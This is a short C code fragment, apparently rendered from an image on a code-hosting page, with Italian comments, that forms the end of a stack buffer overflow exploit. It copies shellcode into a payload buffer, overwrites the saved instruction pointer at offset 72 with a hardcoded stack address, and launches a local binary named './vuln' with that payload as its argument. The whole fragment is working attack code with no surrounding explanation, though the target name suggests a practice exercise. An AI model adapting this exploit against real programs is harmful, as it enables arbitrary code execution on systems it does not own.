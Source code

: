 ```c
    memcpy(payload, shellcode, sizeof(shellcode)); // inserisce shellcode

    void *ret_addr = (void*)(0x7fffffffecc0 + 2); // aggiornare se necessario
    memcpy(payload + 72, &ret_addr, 8); // overwrite RIP

    char *args[] = {"./vuln", (char*)payload, NULL};
    execve("./vuln", args, NULL);
    perror("execve");
    getchar();
    return 1;
}

```